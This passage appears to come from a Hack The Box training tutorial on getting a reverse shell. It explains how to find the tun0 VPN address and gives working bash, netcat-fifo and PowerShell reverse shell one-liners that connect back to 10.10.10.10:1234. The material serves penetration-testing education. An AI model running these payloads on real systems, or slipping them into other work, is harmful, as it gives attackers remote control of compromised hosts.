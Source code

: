 #### Connect Back IP

However, first, we need to find our system's IP to send a reverse connection back to us. We can find our IP with the following command:

Types of Shells

```shell
6165@htb[/htb]$ ip a ...SNIP... 3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500 link/none inet 10.10.10.10/23 scope global tun0 ...SNIP...
```

In our example, the IP we are interested in is under `tun0`, which is the same HTB network we connected to through our VPN.

Note: We are connecting to the IP in 'tun0' because we can only connect to HackTheBox boxes through the VPN connection, as they do not have internet connection, and therefore cannot connect to us over the internet using \`eth0\`. In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the \`eth0\` adapter or similar.

#### Reverse Shell Command

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

Code: bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Code: powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our `netcat` listener:

